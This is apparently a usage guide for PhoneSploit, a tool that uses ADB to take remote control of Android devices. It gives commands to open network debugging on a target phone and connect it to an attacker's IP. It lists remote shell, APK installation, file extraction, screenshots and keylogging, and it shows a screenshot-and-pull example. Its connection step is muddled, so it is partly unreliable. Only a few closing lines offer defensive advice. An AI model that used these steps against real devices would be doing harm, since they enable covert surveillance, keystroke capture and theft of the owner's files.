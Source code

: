 
## ▶️ Usage

### Start ADB Server
```
adb start-server
```

### Connect to Device

On the target device (with USB debugging enabled), run:
```
adb tcpip 5555
adb connect <attacker_ip>:5555
```

From PhoneSploit:
```
python3 phonesploitpro.py
```

## 🧪 Features

|Feature|Description|
|---|---|
|Connect over IP|Remote ADB access via WiFi|
|Get device info|Model, brand, serial|
|Install APK|Push and install APKs|
|Pull files|Download files from device|
|Screenshot|Capture device screen|
|Shell access|Remote ADB shell|
|Keylogger (Pro versions)|Capture keystrokes|

## 🧠 Example: Take Screenshot
```
adb shell screencap -p /sdcard/screen.png
adb pull /sdcard/screen.png
```

## 🛡️ Security Recommendations

If you're defending against PhoneSploit:

- Disable **USB debugging** on non-development devices.
    
- Avoid connecting Android devices to unknown WiFi.
    
- Use mobile MDM or antivirus to monitor ADB access.

































